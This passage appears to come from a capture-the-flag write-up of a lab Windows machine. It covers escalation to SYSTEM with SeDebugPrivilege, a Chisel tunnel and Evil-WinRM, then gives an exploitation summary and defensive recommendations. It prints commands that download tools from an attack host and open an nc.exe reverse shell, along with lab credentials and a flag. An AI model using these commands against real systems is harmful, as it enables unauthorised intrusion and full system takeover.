


---
## 4. Privilege Escalation

### 4.1 SeDebugPrivilege and tool staging

`whoami /priv` shows `SeDebugPrivilege` enabled for `alaading`:



Stage `psgetsys.ps1` and `nc.exe` for SYSTEM reverse shell:

```powershell
Invoke-WebRequest http://10.10.15.14:8000/psgetsys.ps1 -OutFile .\psgetsys.ps1
Invoke-WebRequest http://10.10.15.14:8000/nc.exe -OutFile .\nc.exe
tasklist
```





`winlogon.exe` is PID `556`. Attempts to escalate from a non-WinRM shell failed; the working path is to reach WinRM via a tunnel.

### 4.2 Chisel forward + Evil-WinRM

Forward WinRM through Chisel and authenticate as `alaading` on the local listener (example local port `15985`):

```bash
ss -lntp | grep 15985
nc -vz 127.0.0.1 15985
evil-winrm -i 127.0.0.1 -P 15985 -u 'alaading' -p 'f8gQ8fynP44ek1m3'
```



### 4.3 Impersonate `winlogon` → SYSTEM + root flag

From Evil-WinRM, impersonate parent PID `556` and launch `nc.exe` back to the attack host:

```powershell
ImpersonateFromParentPid -ppid 556 -command "C:\Users\alaading\Documents\nc.exe" -cmdargs "10.10.15.14 8000 -e cmd.exe"
```

```bash
nc -lvnp 8000
```



`whoami` returns `nt authority\system`. Read the root flag:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```



🏁 **Root flag obtained**: `8f9765fb2ca386987f75942e315f0dd7`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate IIS on port 80; map `pov.htb` / `dev.pov.htb` and `sfitz@pov.htb`.
2. Abuse portfolio download LFI (`....//web.config`) → leak `machineKey`.
3. Forge ViewState with ysoserial → reverse shell as `sfitz`.
4. Decrypt `connection.xml` → `alaading` credentials → user flag (and RunasCs shell).
5. Chisel → WinRM as `alaading` → `SeDebugPrivilege` / `psgetsys` against `winlogon` → SYSTEM → root flag.

---
## Defensive Recommendations

- Block path traversal on file-download handlers; never serve application config files.
- Rotate and protect ASP.NET `machineKey` values; treat ViewState as untrusted input when keys leak.
- Do not store reusable credentials as CLIXML blobs in user profiles without strong protections.
- Restrict WinRM exposure; monitor abuse of `SeDebugPrivilege` and unexpected process impersonation.
